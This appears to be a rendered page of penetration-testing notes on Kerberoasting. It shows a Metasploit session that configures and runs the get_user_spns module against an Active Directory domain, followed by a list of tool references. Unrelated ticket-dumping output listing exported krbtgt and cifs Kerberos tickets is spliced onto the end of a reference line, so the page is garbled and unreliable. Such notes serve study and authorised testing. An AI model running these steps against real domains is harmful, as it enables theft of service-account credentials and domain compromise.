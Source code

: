 ### 3.2 Kerberoast

```
msf > use auxiliary/gather/get_user_spns

msf auxiliary(gather/get_user_spns) > options

Module options (auxiliary/gather/get_user_spns):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)
   domain                    yes       The target Active Directory domain
   pass                      yes       Password for the domain user account
   user                      yes       Username for a domain account

msf auxiliary(gather/get_user_spns) > set rhosts <IP>

msf auxiliary(gather/get_user_spns) > set threads 4

msf auxiliary(gather/get_user_spns) > set domain <domain_name>

msf auxiliary(gather/get_user_spns) > set user <username>

msf auxiliary(gather/get_user_spns) > set pass <password>

msf auxiliary(gather/get_user_spns) > exploit
```

## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)[00000001] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:31 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : krbtgt/SITTINGDUCK.INFO @ SITTINGDUCK.INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; f
orwardable ;
   * Saved to file     : 1-40e10000-uberuser@krbtgt~SITTINGDUCK.INFO-SITTINGDUCK
.INFO.kirbi

[00000002] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:32 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : cifs/dc1.sittingduck.info @ SITTINGDUCK.INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewa
ble ; forwardable ;
   * Saved to file     : 2-40a50000-uberuser@cifs~dc1.sittingduck.info-SITTINGDU
CK.INFO.kirbi
